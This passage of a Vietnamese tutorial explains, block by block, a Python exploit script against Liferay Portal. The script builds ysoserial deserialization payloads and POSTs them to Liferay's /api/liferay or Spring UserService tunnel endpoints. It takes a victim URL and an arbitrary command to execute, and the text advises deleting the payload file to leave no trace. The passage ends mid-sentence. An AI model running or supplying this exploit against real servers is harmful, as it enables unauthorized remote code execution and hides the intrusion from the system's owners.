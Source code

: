 - Xóa file `payload.bin` để không để lại dấu vết.
    
- Trả về payload đã mã hóa base64.

##### 3. Hàm gửi payload đến mục tiêu
```js
def send_payload(url, endpoint, payload):
    if endpoint == "/api/spring":
        endpoint = "/api/////spring/com_liferay_portal_service_spring_UserService-http"
    else:
        endpoint = "/api/////liferay"
```

- Nếu bạn chọn `/api/spring`, nó tự động chuyển thành endpoint liên quan đến Liferay Spring (`com_liferay_portal_service_spring_UserService-http`).
    
- Ngược lại sẽ dùng endpoint mặc định `/api/////liferay`.
- 
```js
    req = requests.post(str(url) + endpoint, data=base64.b64decode(payload))
```

- Giải mã payload base64 rồi gửi bằng `POST` tới `url + endpoint`.

```js
    if req.status_code == 200 or req.status_code == 500:
        print("Send payload successfully!!")
    else:
        print("Failed to send payload. Status code:", req.status_code)
```

- Trả về thành công nếu server phản hồi `200 OK` hoặc `500 Internal Server Error` (nhiều trường hợp lỗi `500` là do payload đã thực thi).

##### 4. Đoạn thực thi chính (main)

```js
if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--url", help="URL of victim", type=str)
    parser.add_argument("--endpoint", help="/api/liferay or /api/spring", type=str)
    parser.add_argument("--chain", help="GadgetChain you wanna use", type=str)
    parser.add_argument("--cmd", help="Command you wanna execute", type=str)
    args = parser.parse_args()

    payload = generate_b64_payload(args.chain, args.cmd)
    send_payload(args.url, args.endpoint, payload)
```

- Lấy input từ dòng lệnh: `--url`, `--endpoint`, `--chain`, `--cmd`.
    
- Gọi hàm `generate_b64_payload()` để tạo payload từ `ysoserial`.

- Sau đó gửi payload đến server mục tiêu.

##### 5. Câu lệnh để chạy

- Bạn mở **command Prompt** trong window lên hướng đến thư mục có code **Python** sau đó chạy lệnh 

